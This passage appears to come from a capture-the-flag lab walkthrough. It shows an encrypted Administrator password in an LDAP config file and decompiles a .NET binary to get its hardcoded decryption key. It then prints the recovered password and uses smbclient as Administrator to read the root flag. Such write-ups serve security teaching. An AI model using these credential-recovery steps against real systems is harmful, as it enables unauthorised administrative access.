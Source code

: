 After some initial enumeration, we find the `LDAP` folder associated with the executable before. If we look inside, we see a config file paired with it.

```
>setdir LDAP

Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

We see that this config has Administrator's password cached in it in what appears to be the same encryption as Carl's. However, if we try the same recipe, it does not work.

We might be able to find some new values in the executable that is paired with this config. If we use a program such as [dnSpy](https://github.com/0xd4d/dnSpy), we can decompile the binary since it is a .NET executable. In the `HqkLdap.CR` class, we can see the decrypt function with the new constants.

```c#
// HqkLdap.CR
// Token: 0x06000012 RID: 18 RVA: 0x00002278 File Offset: 0x00000678
public static string DS(string EncryptedString)
{
	if (string.IsNullOrEmpty(EncryptedString))
	{
		return string.Empty;
	}
	return CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
}
```

After creating a new CyberChef recipe similar to the last with the new constants, we decrypt Administrator's password which is `XtH4nkS4Pl4y1nGX` and get the root flag.

```
# smbclient //10.10.10.178/C$/ -U "Administrator"
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> get Users\Administrator\Desktop\root.txt 
getting file \Users\Administrator\Desktop\root.txt of size 32 as Users\Administrator\Desktop\root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> ^C
# cat root.txt 
6594c2**************************
```
